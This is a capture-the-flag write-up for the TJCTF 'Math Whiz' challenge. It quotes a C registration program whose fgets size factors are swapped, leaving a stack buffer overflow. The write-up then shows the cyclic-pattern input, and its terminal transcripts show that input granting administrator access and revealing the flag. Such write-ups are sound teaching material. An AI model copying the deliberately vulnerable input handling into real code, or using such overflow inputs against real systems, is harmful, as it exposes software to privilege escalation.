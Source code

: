# Math Whiz
Binary Exploitation - 20 points

## Challenge 

Written by evanyeyeye

The neighborhood math whiz won't stop bragging about the [registration form](08e375bf1ab130f59197b62783d6df8ef7406b3093f3eaee4ce6ccaae6cc5639_register) ([source](b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c)) he coded. Show him who's boss!

`nc problem1.tjctf.org 8001`

## Solution

Looking at source code, notice that the `input()` takes in a float for the buffer size which is multiplied by 16.

	int input(char *str, float f) {

	    fgets(str, 16 * f, stdin);

	    if (strlen(str) <= 1) {
	        puts("No input detected. Registration failed.");
	        exit(0);
	    } else if (!strchr(str, 10)) {
	        while (fgetc(stdin) != 10);
	    } else {
	        str[strlen(str) - 1] = 0;
	    }
	}

Hence, given the arrays, we know `f` must be the following

    char fullname[16];    // f=1
    char username[16];    // f=1
    char password[16];    // f=1
    char recoverypin[4];  // f=0.25
    char email[16];       // f=1
    char address[16];     // f=1
    char bio[64];         // f=4

However, we notice that `f` for `recoverypin` and `bio` are reversed

    printf("Recovery Pin: ");
    input(recoverypin, 4);

    printf("Email: ");
    input(email, 1);

    printf("Address: ");
    input(address, 1);

    printf("Biography: ");
    input(bio, .25);

Solve it.

	# pwn cyclic 64
	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
	
	# ./register 
	******************** Please Register Below ********************
	Full Name: a
	Username: a
	Password: a
	Recovery Pin: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
	Email: a
	Address: a
	Biography: a
	Successfully registered 'faaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaa' as an administrator account!
	Here is your flag: -----REDACTED-----
	Segmentation fault

And on the server

	$ nc problem1.tjctf.org 8001
	******************** Please Register Below ********************
	Full Name: a
	Username: a
	Password: a
	Recovery Pin: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
	Email: a
	a
	Address: a
	Biography: 
	Successfully registered 'faaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaa' as an administrator account!
	Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
	timeout: the monitored command dumped core

## Flag

	tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
